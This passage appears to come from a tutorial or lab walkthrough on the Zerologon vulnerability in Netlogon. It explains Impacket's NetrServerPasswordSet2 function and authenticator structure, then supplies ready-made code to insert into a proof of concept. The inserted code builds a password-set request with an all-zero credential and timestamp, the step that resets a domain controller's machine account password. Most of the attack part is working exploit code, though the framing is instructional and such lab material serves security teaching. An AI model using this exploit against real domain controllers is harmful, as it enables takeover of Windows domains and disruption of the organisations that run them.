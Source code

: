 ```
def hNetrServerPasswordSet2(dce, primaryName, accountName, secureChannelType, computerName, authenticator, clearNewPasswordBlob):
    request = NetrServerPasswordSet2()

    request\['PrimaryName'\] = checkNullString(primaryName)

    request\['AccountName'\] = checkNullString(accountName)

    request\['SecureChannelType'\] = secureChannelType

    request\['ComputerName'\] = checkNullString(computerName)

    request\['Authenticator'\] = authenticator

    request\['ClearNewPassword'\] = clearNewPasswordBlob

    return dce.request(request)
```
As expected, most of the field names are the same as what Microsoft provided, except with some differences. Next, we need to know how to structure the Authenticator portion as well:  
  
```
class NETLOGON\_AUTHENTICATOR(NDRSTRUCT):

    structure = (

        ('Credential', NETLOGON\_CREDENTIAL),

        ('Timestamp', DWORD),

    )

```  

The format here is a little bit different compared to the prior, but we'll adjust accordingly when we go to slot it into the PoC, but while we're talking about slotting it into the PoC, where will our added code go?

Our added code will go immediately before "return rpc\_con" on line 45. This is where we know we have successful authentication, we want to grab that before we return to the previous function and terminate the RPC connection. Now that we know all the required information that we'll need to add to the PoC, we'll save you the painstaking effort of writing your own code, and you can use the pre-written code below. The above explanations should help aid in understanding it.  
  

**The Additional Code we're slotting in:**
```
    newPassRequest = nrpc.NetrServerPasswordSet2()

    newPassRequest\['PrimaryName'\] = dc\_handle + '\\x00'

    newPassRequest\['AccountName'\] = target\_computer + '$\\x00'

    newPassRequest\['SecureChannelType'\] = nrpc.NETLOGON\_SECURE\_CHANNEL\_TYPE.ServerSecureChannel

    auth = nrpc.NETLOGON\_AUTHENTICATOR()

    auth\['Credential'\] = b'\\x00' \* 8

    auth\['Timestamp'\] = 0

    newPassRequest\['Authenticator'\] = auth

    newPassRequest\['ComputerName'\] = target\_computer + '\\x00'

```